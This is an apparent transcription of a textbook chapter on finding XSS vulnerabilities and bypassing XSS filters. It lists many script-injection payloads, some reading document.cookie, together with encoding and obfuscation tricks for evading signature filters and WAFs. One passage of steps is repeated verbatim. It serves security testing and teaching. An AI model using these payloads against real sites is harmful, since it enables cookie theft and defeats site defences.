 ## Finding and Exploiting XSS Vulnerabilities

A basic approach to identifying XSS vulnerabilities is to use a standard proof-of-concept attack string such as the following:
```
“><script>alert(document.cookie)</script>
```
This string is submitted as every parameter to every page of the application, and responses are monitored for the appearance of this same string. If cases are found where the attack string appears unmodified within the response, the application is almost certainly vulnerable to XSS.

If your intention is simply to identify some instance of XSS within the application as quickly as possible to launch an attack against other application users, this basic approach is probably the most effective, because it can be easily auto- mated and produces minimal false positives. However, if your objective is to perform a comprehensive test of the application to locate as many individual vulnerabilities as possible, the basic approach needs to be supplemented with more sophisticated techniques. There are several different ways in which XSS vulnerabilities may exist within an application that will not be identified via the basic approach to detection:

- Many applications implement rudimentary blacklist-based filters in an attempt to prevent XSS attacks. These filters typically look for expressions such as <script> within request parameters and take some defensive action such as removing or encoding the expression or blocking the request. These filters often block the attack strings commonly employed in the basic approach to detection. However, just because one common attack string is being filtered, this does not mean that an exploitable vulnerability does not exist. As you will see, there are cases in which a working XSS exploit can be created without using <script> tags and even without using commonly filtered characters such as “ < > and /.
 
- The anti-XSS filters implemented within many applications are defective and can be circumvented through various means. For example, suppose that an application strips any <script> tags from user input before it is processed. This means that the attack string used in the basic approach will not be returned in any of the application’s responses. However, it may be that one or more of the following strings will bypass the filter and result in a successful XSS exploit:
 
```  
“><script >alert(document.cookie)</script >
“><ScRiPt>alert(document.cookie)</ScRiPt>
“%3e%3cscript%3ealert(document.cookie)%3c/script%3e
“><scr<script>ipt>alert(document.cookie)</scr</script>ipt>
%00“><script>alert(document.cookie)</script>
```
The first stage in the testing process is to submit a benign string to each entry point and to identify every location in the response where the string is reflected:
 
 1. Choose a unique arbitrary string that does not appear anywhere within the application and that contains only alphabetical characters and there-fore is unlikely to be affected by any XSS-specific filters. For example:

       ```myxsstestdmqlwp```

Submit this string as every parameter to every page, targeting only one parameter at a time.

 2. Monitor the application’s responses for any appearance of this same string. Make a note of every parameter whose value is being copied into the application’s response. These are not necessarily vulnerable, but each instance identified is a candidate for further investigation, as described in the next section.

 3. Note that both GET and POST requests need to be tested. You should include every parameter within both the URL query string and the message body. Although a smaller range of delivery mechanisms exists for XSS vulnerabilities that can be triggered only by a POST request, exploitation is still possible, as previously described.

 4. In any cases where XSS was found in a POST request, use the “change request method” option in Burp to determine whether the same attack could be performed as a GET request.

 5. In addition to the standard request parameters, you should test every instance in which the application processes the contents of an HTTP request header. A common XSS vulnerability arises in error messages, where items such as the Referer and User-Agent headers are copied into the message’s contents. These headers are valid vehicles for delivering a reflected XSS attack, because an attacker can use a Flash object to induce a victim to issue a request containing arbitrary HTTP headers.

 
## Identifying Reflections of User Input
The first stage in the testing process is to submit a benign string to each entry point and to identify every location in the response where the string is reflected.

1. Choose a unique arbitrary string that does not appear anywhere within the application and that contains only alphabetical characters and there-
fore is unlikely to be affected by any XSS-specific filters. For example:

     ```myxsstestdmqlwp```

  Submit this string as every parameter to every page, targeting only one parameter at a time.

2. Monitor the application’s responses for any appearance of this same string. Make a note of every parameter whose value is being copied into the application’s response. These are not necessarily vulnerable, but each instance identified is a candidate for further investigation, as described in the next section.

3. Note that both GET and POST requests need to be tested. You should include every parameter within both the URL query string and the message body. Although a smaller range of delivery mechanisms exists for XSS vulnerabilities that can be triggered only by a POST request, exploitation is still possible, as previously described.

4. In any cases where XSS was found in a POST request, use the “change request method” option in Burp to determine whether the same attack could be performed as a GET request.

5. In addition to the standard request parameters, you should test every instance in which the application processes the contents of an HTTP request header. A common XSS vulnerability arises in error messages, where items such as the Referer and User-Agent headers are copied into the message’s contents. These headers are valid vehicles for delivering a reflected XSS attack, because an attacker can use a Flash object to induce a victim to issue a request containing arbitrary HTTP headers.

## Testing Reflections to Introduce Script

You must manually investigate each instance of reflected input that you have identified to verify whether it is actually exploitable. In each location where data is reflected in the response, you need to identify the syntactic context of that data. You must find a way to modify your input such that, when it is copied into the same location in the application’s response, it results in execution of arbitrary script. Let’s look at some examples.

Example 1: A Tag Attribute Value
Suppose that the returned page contains the following:
 
```<input type=”text” name=”address1” value=”myxsstestdmqlwp”>```

One obvious way to craft an XSS exploit is to terminate the double quotation marks that enclose the attribute value, close the <input> tag, and then employ some means of introducing JavaScript, such as a <script> tag. For example:

 ```“><script>alert(1)</script>```

An alternative method in this situation, which may bypass certain input filters, is to remain within the <input> tag itself but inject an event handler containing JavaScript. For example:
 
```“ onfocus=”alert(1)```
 
## Probing Defense Filters

Very often, you will discover that the server modifies your initial attempted exploits in some way, so they do not succeed in executing your injected script. 
 
If this happens, do not give up! Your next task is to determine what server-side processing is occurring that is affecting your input. There are three broad possibilities:

 - The application (or a web application firewall protecting the application) has identified an attack signature and has blocked your input.

 - The application has accepted your input but has performed some kind of sanitization or encoding on the attack string.

 - The application has truncated your attack string to a fixed maximum length. We will look at each scenario in turn and discuss various ways in which the obstacles presented by the application’s processing can be bypassed.

## Beating Signature-Based Filters
 
 In the first type of filter, the application typically responds to your attack string
with an entirely different response than it did for the harmless string. For
example, it might respond with an error message, possibly even stating that a
possible XSS attack was detected, as shown in Figure 12-8.
 
 If this occurs, the next step is to determine what characters or expressions within your input are triggering the filter. An effective approach is to remove different parts of your string in turn and see whether the input is still being blocked. Typically, this process establishes fairly quickly that a specific expression such as <script> is causing the request to be blocked. You then need to test the filter to establish whether any bypasses exist. There are so many different ways to introduce script code into HTML pages that signature-based filters normally can be bypassed. You can find an alternative means of introducing script, or you can use slightly malformed syntax that browsers tolerate. This section examines the numerous different methods of executing scripts. Then it describes a wide range of techniques that can be used to bypass common filters.
 
 ## Bypassing Filters:HTML
 
Starting with the opening tag name, the most simple and naïve filters can be bypassed simply by varying the case of the characters used:

 ```<iMg onerror=alert(1) src=a>```

Going further, you can insert NULL bytes at any position:
```
<[%00]img onerror=alert(1) src=a>
<i[%00]mg onerror=alert(1) src=a>
```
(In these examples, [%XX] indicates the literal character with the hexadecimal ASCII code of XX. When submitting your attack to the application, generally you would use the URL-encoded form of the character. When reviewing the application’s response, you need to look for the literal decoded character being reflected.)

 **TIP** The NULL byte trick works on Internet Explorer anywhere within the HTML page. Liberal use of NULL bytes in XSS attacks often provides a quick way to bypass signature-based filters that are unaware of IE’s behavior. Using NULL bytes has historically proven effective against web application firewalls (WAFs) configured to block requests containing known attack strings. Because WAFs typically are written in native code for performance reasons, a NULL byte terminates the string in which it appears. This prevents the WAF from seeing the malicious payload that comes after the NULL (see Chapter 16 for more details)
 
**Space Following the Tag Name**

 Several characters can replace the space between the tag name and the first attribute name:
``` 
<img/onerror=alert(1) src=a>
<img[%09]onerror=alert(1) src=a>
<img[%0d]onerror=alert(1) src=a>
<img[%0a]onerror=alert(1) src=a>
<img/”onerror=alert(1) src=a>
<img/’onerror=alert(1) src=a>
<img/anyjunk/onerror=alert(1) src=a>
```
Note that even where an attack does not require any tag attributes, you should always try adding some superfluous content after the tag name, because this bypasses some simple filters:

 ```<script/anyjunk>alert(1)</script>```
 
**Attribute Values**
 
Within attribute values themselves, you can use the NULL byte trick, and you also can HTML-encode characters within the value:
 
```
<img onerror=a[%00]lert(1) src=a>
<img onerror=a&#x6c;ert(1) src=a>
```
Because the browser HTML-decodes the attribute value before processing it further, you can use HTML encoding to obfuscate your use of script code, thereby evading many filters. For example, the following attack bypasses many filters seeking to block use of the JavaScript pseudo-protocol handler:

 ```<iframe src=j&#x61;vasc&#x72ipt&#x3a;alert&#x28;1&#x29; >```

 When using HTML encoding, it is worth noting that browsers tolerate various deviations from the specifications, in ways that even filters that are aware of HTML encoding issues may overlook. You can use both decimal and hexa-decimal format, add superfluous leading zeros, and omit the trailing semicolon.

The following examples all work on at least one browser:
```
<img onerror=a&#x06c;ert(1) src=a>
<img onerror=a&#x006c;ert(1) src=a>
<img onerror=a&#x0006c;ert(1) src=a>
<img onerror=a&#108;ert(1) src=a>
<img onerror=a&#0108;ert(1) src=a>
<img onerror=a&#108ert(1) src=a>
<img onerror=a&#0108ert(1) src=a>
```
 
**Tag Brackets**

In some situations, by exploiting quirky application or browser behavior, it is possible to use invalid tag brackets and still cause the browser to process the tag in the way the attack requires.

Some applications perform a superfluous URL decode of input after their input filters have been applied, so the following input appearing in a request:

 ```%253cimg%20onerror=alert(1)%20src=a%253e```

is URL-decoded by the application server and passed to the application as:

 ```%3cimg onerror=alert(1) src=a%3e```
 
which does not contain any tag brackets and therefore is not blocked by the input filter. However, the application then performs a second URL decode, so
the input becomes:
 
```<img onerror=alert(1) src=a>```
 
which is echoed to the user, causing the attack to execute.

**Glyphs**
 
As described in Chapter 2, something similar can happen when an application framework “translates” unusual Unicode characters into their nearest ASCII
equivalents based on the similarity of their glyphs or phonetics. For example, the following input uses Unicode double-angle quotation marks (%u00AB and
%u00BB) instead of tag brackets:
 
```«img onerror=alert(1) src=a»```
 
The application’s input fi lters may allow this input because it does not contain any problematic HTML. However, if the application framework translates the quotation marks into tag characters at the point where the input is inserted into a response, the attack succeeds. Numerous applications have been found vulnerable to this kind of attack, which developers may be forgiven for overlooking.
 
Some input filters identify HTML tags by simply matching opening and closing angle brackets, extracting the contents, and comparing this to a blacklist
of tag names. In this situation, you may be able to bypass the filter by using superfluous brackets, which the browser tolerates:

 ```<<script>alert(1);//<</script>```

In some cases, unexpected behavior in browsers’ HTML parsers can be leveraged to deliver an attack that bypasses an application’s input filters. For example, the following HTML, which uses ECMAScript for XML (E4X) syntax, does not contain a valid opening script tag but nevertheless executes the enclosed script on current versions of Firefox:

 ```<script<{alert(1)}/></script>```
 
TIP In several of the filter bypasses described, the attack results in HTML that is malformed but is nevertheless tolerated by the client browser. Because numerous quite legitimate websites contain HTML that does not strictly comply to the standards, browsers accept HTML that is deviant in all kinds of ways. They effectively fix the errors behind the scenes before the page is rendered. Often, when you are trying to fine-tune an attack in an unusual situation, it can be helpful to view the virtual HTML that the browser constructs out of the server’s actual response. In Firefox, you can use the WebDeveloper tool, which contains a View Generated Source function that performs precisely this task.

 **Character Sets**

 In some situations, you can employ a powerful means of bypassing many types of filters by causing the application to accept a nonstandard encoding of your attack payload. The following examples show some representations of the string 
 
 ```<script>alert(document.cookie)</script>``` 
 
in alternative character sets:

**UTF-7**
 
```
+ADw-script+AD4-alert(document.cookie)+ADw-/script+AD4-
```
 
**US-ASCII**
 
```
BC 73 63 72 69 70 74 BE 61 6C 65 72 74 28 64 6F ; ¼script¾alert(do
63 75 6D 65 6E 74 2E 63 6F 6F 6B 69 65 29 BC 2F ; cument.cookie)¼/
73 63 72 69 70 74 BE ; script¾
```

**UTF-16**
 
```
FF FE 3C 00 73 00 63 00 72 00 69 00 70 00 74 00 ; ÿþ<.s.c.r.i.p.t.
3E 00 61 00 6C 00 65 00 72 00 74 00 28 00 64 00 ; >.a.l.e.r.t.(.d.
6F 00 63 00 75 00 6D 00 65 00 6E 00 74 00 2E 00 ; o.c.u.m.e.n.t...
63 00 6F 00 6F 00 6B 00 69 00 65 00 29 00 3C 00 ; c.o.o.k.i.e.).<.
2F 00 73 00 63 00 72 00 69 00 70 00 74 00 3E 00 ; /.s.c.r.i.p.t.>. 
``` 
 
**Using JavaScript Escaping**
 
JavaScript allows various kinds of character escaping, which you can use to avoid including required expressions in their literal form. Unicode escapes can be used to represent characters within JavaScript keywords, allowing you to bypass many kinds of filters:
 
```
<script>a\u006cert(1);</script>
```

If you can make use of the ```eval``` command, possibly by using the preceding technique to escape some of its characters, you can execute other commands by passing them to the ```eval``` command in string form. This allows you to use various string manipulation techniques to hide the command you are executing. Within JavaScript strings, you can use Unicode escapes, hexadecimal escapes, and octal escapes:

```
<script>eval(‘a\u006cert(1)’);</script>
<script>eval(‘a\x6cert(1)’);</script>
<script>eval(‘a\154ert(1)’);</script>
```

Furthermore, superfluous escape characters within strings are ignored:

```
<script>eval(‘a\l\ert\(1\)’);</script>
```

**Dynamically Constructing Strings**

You can use other techniques to dynamically construct strings to use in your attacks:

```
<script>eval(‘al’+’ert(1)’);</script>
<script>eval(String.fromCharCode(97,108,101,114,116,40,49,41));</script>
<script>eval(atob(‘amF2YXNjcmlwdDphbGVydCgxKQ’));</script>
```

The final example, which works on Firefox, allows you to decode a Base64-encoded command before passing it to ```eval```
 
**Alternatives to eval**

If direct calls to the eval command are not possible, you have other ways to execute commands in string form:
 
```
<script>’alert(1)’.replace(/.+/,eval)</script>
<script>function::[‘alert’](1)</script>
```

**Alternatives to Dots**

If the dot character is being blocked, you can use other methods to perform dereferences:

```
<script>alert(document[‘cookie’])</script>
<script>with(document)alert(cookie)</script>
```
References: https://www.google.com/url?sa=t&rct=j&q=&esrc=s&source=web&cd=&cad=rja&uact=8&ved=2ahUKEwim7cD06oL5AhWZk4kEHcDGAzMQFnoECAYQAQ&url=http%3A%2F%2Fwww.xss-payloads.com%2F&usg=AOvVaw1-hKbfrHEIcldlShn1bjoC

